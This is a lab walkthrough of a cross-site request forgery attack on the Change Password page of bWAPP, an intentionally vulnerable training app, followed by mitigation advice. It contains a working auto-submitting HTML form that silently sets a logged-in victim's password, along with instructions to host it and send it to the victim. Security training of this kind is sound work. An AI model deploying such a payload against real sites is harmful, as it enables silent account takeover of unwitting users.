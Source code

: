 # 🛡️ CSRF Exploit – bWAPP Walkthrough

# 🔧 Environment
- **App**: bWAPP (Bee-Box VM)
- **Module**: CSRF → Change Password (low security)
- **Tools**: Browser, Burp Suite

---

# 🎯 Objective
Exploit a CSRF vulnerability to change another user's password **without their knowledge**.

---

# 🔍 Steps to Reproduce

### 1. Login as victim user
URL: `http://localhost/bWAPP/login.php`

Credentials:
- Username: `bee`
- Password: `bug`

Navigate to: `http://localhost/bWAPP/csrf_1.php`

### 2. Inspect Change Password Form

The form sends a POST request like:

```http

POST /bWAPP/csrf_1.php
password_new=test123&password_conf=test123&form=submit

```
### 3. Create Malicious CSRF Page

```
<!DOCTYPE html>
<html>
  <body>
    <form action="http://localhost/bWAPP/csrf_1.php" method="POST">
      <input type="hidden" name="password_new" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
      <input type="hidden" name="form" value="submit">
      <input type="submit" value="Click me">
    </form>
    <script>
      document.forms[0].submit(); // Auto-submit the form
    </script>
  </body>
</html>
```

Host this file and send it to the victim. Once they open it while logged in, their password gets changed silently.

🧪 Test Verification

Try logging in with:

Username: bee
Password: hacked123

If successful: CSRF vulnerability confirmed

🧰 Mitigation Measures

Anti-CSRF tokens: Use unpredictable tokens tied to session.
SameSite Cookies: Set SameSite=Strict or Lax in cookie headers.
Referer or Origin Checks: Validate that requests originate from the same domain.

Example using token:

html code
```
<input type="hidden" name="csrf_token" value="abc123">

```
Server must verify this token before processing.

✅ Summary
CSRF can silently exploit authenticated sessions. Even simple state-changing actions like changing passwords or emails can be hijacked. Always use tokens and strict cookie policies to defend against it.


